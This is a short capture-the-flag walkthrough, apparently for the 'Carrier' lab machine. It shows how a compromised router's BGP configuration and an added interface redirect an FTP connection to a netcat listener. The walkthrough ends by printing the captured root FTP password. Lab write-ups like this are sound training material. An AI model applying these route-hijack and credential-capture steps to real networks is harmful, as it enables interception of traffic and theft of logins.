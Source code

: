 # Alternative way to exploit Carrier

## Getting SSH Password by adding an Interface

After getting access to the first router _(AS100)_, there is another way to gain access to the main box instead of the **BGP Hijack attack**.
By adding an IP to the interfaces of the router, the FTP connection will be sent directly to this device:

Creating the route as before:
```markdown
r1# configure terminal

r1(config)# router bgp 100

r1(config-router)# network 10.120.15.0/25

r1# clear ip bgp * out
```

Creating interface:
```markdown
ifconfig eth2 10.120.15.10 netmask 255.255.255.128
```

Waiting for FTP connection on port 21:
```markdown
nc -lvnp 21
```

After a minute the FTP connection will start and by sending the correct FTP codes, the password will be displayed:
```markdown
Connection from [10.78.10.2] port 21 [tcp/*] accepted (family 2, sport 47038)

USER root
331
PASS BGPtelc0rout1ng
331
ACCT put secretdata.txt
(...)
```

